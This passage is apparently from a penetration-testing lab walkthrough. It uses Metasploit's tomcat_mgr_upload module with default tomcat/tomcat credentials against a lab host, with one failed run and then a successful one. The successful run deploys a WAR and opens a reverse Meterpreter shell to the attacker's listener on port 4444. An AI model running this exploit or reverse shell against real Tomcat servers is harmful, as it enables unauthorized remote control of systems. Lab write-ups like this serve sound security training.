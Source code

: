 Set some options for this exploit. We'll use the credentials we already found.
```
msf exploit(tomcat_mgr_upload) > set USERNAME tomcat
USERNAME => tomcat
msf exploit(tomcat_mgr_upload) > set PASSWORD tomcat
PASSWORD => tomcat
msf exploit(tomcat_mgr_upload) > set RHOST 10.0.0.27
RHOST => 10.0.0.27
msf exploit(tomcat_mgr_upload) > set RPORT 8180
RPORT => 8180

The TARGETURIvariable should be left to the default, manager/ - not set to admin.

msf exploit(tomcat_mgr_upload) > set TARGETURI /manager
TARGETURI => /manager
```

### Run the Exploit (Failure)

Now we are ready to run:
```
msf exploit(tomcat_mgr_upload) > run
.
[*] Exploit completed, but no session was created.
```
Does not work. Not sure why.

After running the above exploit, I can log into the management page and see the WAR is successfully being uploaded by Metasploit, and that the module is active and running.

Can configure the correct path to the Tomcat manager (which is /manager).

(Note: many admins will disable these Tomcat modules or change the name of directories.)


### Run the Exploit (Worked)

I set this aside for a day, and found another workaround (covered below). But then, later, the exploit worked as intended.
```
msf exploit(tomcat_mgr_upload) > set USERNAME tomcat
USERNAME => tomcat
msf exploit(tomcat_mgr_upload) > set PASSWORD tomcat
PASSWORD => tomcat
msf exploit(tomcat_mgr_upload) > set RHOST 10.0.0.27
RHOST => 10.0.0.27
msf exploit(tomcat_mgr_upload) > set RPORT 8180
RPORT => 8180
msf exploit(tomcat_mgr_upload) > run

[*] Started reverse TCP handler on 10.0.0.5:4444
[*] 10.0.0.27:8180 - Retrieving session ID and CSRF token...
[*] 10.0.0.27:8180 - Uploading and deploying cjMiuUTZpif5w0UB5FgrZY...
[*] 10.0.0.27:8180 - Executing cjMiuUTZpif5w0UB5FgrZY...
[*] 10.0.0.27:8180 - Undeploying cjMiuUTZpif5w0UB5FgrZY ...
[*] Sending stage (45741 bytes) to 10.0.0.27
[*] Meterpreter session 1 opened (10.0.0.5:4444 -> 10.0.0.27:50621) at 2016-03-30 19:33:50 -0700

meterpreter >
```
### Houston, We Have A Meterpreter Shell

